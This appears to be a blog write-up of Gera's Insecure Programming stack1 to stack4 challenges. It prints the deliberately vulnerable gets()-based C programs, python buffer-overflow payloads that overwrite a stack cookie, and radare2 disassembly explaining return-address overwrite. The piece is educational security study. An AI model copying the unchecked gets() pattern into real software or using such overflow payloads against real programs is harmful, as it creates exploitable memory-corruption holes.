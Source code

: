 ```yaml
---
layout: post
category: Computer Stuff
tags: [hacking, ctf, spoiler, writeup, crackme]
---
```


## Introduction
In this post we will take a look at some of Gera's Insecure programming
challenges. These are a popular set of computer security challenges
flying around the web. We will look at the challenges called stack1.c
up to stack5.c
We compile everything with `gcc -m32 stackn.c -o stackn.o`, where n
is from 1 to 4. This says to gcc that we want a 32-bit binary.

## Stack1.c
{% highlight C %}
/* stack1-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x41424344)
		printf("you win!\n");
}
{% endhighlight %}
As we can see the program allocates an integer and an array buf of 80
bytes on the stack and copies stdin into buf. That is already
everything. If we get the integer to change to 0x41424344 then we win.
0x41424344 converted to ASCII is ABCD, by the way.
We know that the stack grows in direction of the small addresses, so
the memory layout is likely as follows:

```
low addresses
--
buf[0]
--
...
--
buf[79]
--
4 Byte cookie
--
high addresses
```
That is we need to insert 80 bytes of junk and then "DCBA" (because of
endianness) to overwrite the cookie.

```
$ python -c 'print("A"*80+"DCBA")' | ./stack1.o
buf: ffe7697c cookie: ffe769cc
you win!
```

## Stack2.c
{% highlight C %}
/* stack2-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x01020305)
  		printf("you win!\n");
}
{% endhighlight %}
This is basically the same, but this time we need to write 0x01020305
over the cookie.

```
$ python -c 'print("A"*80+"\x05\x03\x02\x01")' | stack2.o 
buf: ffbb34ec cookie: ffbb353c
you win!
```
## Stack3.c
{% highlight C %}
/* stack3-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x01020005)
  		printf("you win!\n");
}
{% endhighlight %}
Again the same? Yes. But this time, the interesting thing is that we
have a 0x00. Normally this is the Null-terminator. Strings in C end
with 0x00 because this is the only way the computer can see that he
has encountered the end of the string and can stop reading.
Interestingly 'gets' does not care.

```
$ python -c 'print("A"*80+"\x05\x00\x02\x01")' | stack3.o 
buf: ffd5998c cookie: ffd599dc
you win!
```
## Stack4.c
{% highlight C %}
/* stack4-stdin.c                               *
 * specially crafted to feed your brain by gera */

#include <stdio.h>

int main() {
	int cookie;
	char buf[80];

	printf("buf: %08x cookie: %08x\n", &buf, &cookie);
	gets(buf);

	if (cookie == 0x000d0a00)
		printf("you win!\n");
}
{% endhighlight %}
Ah, the same stuff again. Piece of cake.

```
$ python -c 'print("A"*80+"\x00\x0a\x0d\x00")' | stack4.o 
buf: ff8efd3c cookie: ff8efd8c
```
Whoa, what happened? We are doomed.

Okay, according to the man-page gets reads until a newline or EOF is
encountered. Unfortunately the combination \x0a\x0d when ASCII-encoded
is a newline. We need to think of something else.
First let us recompile the binary with `gcc -g -fno-stack-protector -m32
stack4.c -o stack4.o`. The -g enables debug symbols to ease our lives,
-fno-stack-protector disables stack canaries, which are a security
mechanism. This also eases what we intend to do.
Let us take a look at the binary:

```
$ r2 -A stack4.o 
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
 -- R2 loves everyone, even Java coders, but less than others
 [0x08048370]> pdf @main
....
|           0x0804849b      e890feffff     call sym.imp.gets
|           0x080484a0      83c410         add esp, 0x10
|           0x080484a3      8b45f4         mov eax, dword [ebp - local_ch] ; stack4.c:13  if (cookie == 0x000d0a00) ; .//stack4.c:13
|           0x080484a6      3d000a0d00     cmp eax, 0xd0a00
|       ,=< 0x080484ab      7510           jne 0x80484bd
|       |   0x080484ad      83ec0c         sub esp, 0xc                ; stack4.c:14   printf("you win!\n"); ; .//stack4.c:14  .if (cookie == 0x000d0a00)
|       |   0x080484b0      686c850408     push str.you_win_ ; str.you_win_ ; "you win!" @ 0x804856c
|       |   0x080484b5      e886feffff     call sym.imp.puts
|       |   0x080484ba      83c410         add esp, 0x10
|       |   ; JMP XREF from 0x080484ab (sym.main)
|       `-> 0x080484bd      b800000000     mov eax, 0
|           0x080484c2      8b4dfc         mov ecx, dword [ebp - local_4h_2] ; stack4.c:15 } ; .//stack4.c:15  ..printf(\"you win!\n\");
....
```
We can see that there is a comparison (cmp) with the value of the cookie and if they are not equal, we jump over the block with the "you win"-string.
Let me explain to you something I did not mention earlier. When gets is called
in 0x0804849b, the program pushes the current location of the instruction
pointer to the stack. It needs to know where to continue execution
after the puts routine. Further it needs to know where the previous
stack frame started, so it also remembers a frame pointer which points
towards the previous stack frame.
Thus our stack layout from above actually is as follows:

```
low addresses
--
buf[0]
--
...
--
buf[79]
--
4 Byte cookie
--
frame pointer
--
return address
--
high addresses
```
If we craft a special string we can overwrite the return address.
Which return address would we like? 0x080484b0 seems like a good
choice, since then we pass over the evil jump.

Well, this is left as an easy exercise for the determined reader.
You would not learn anything more, if i give you the code.
If you get stuck, think about endianness.
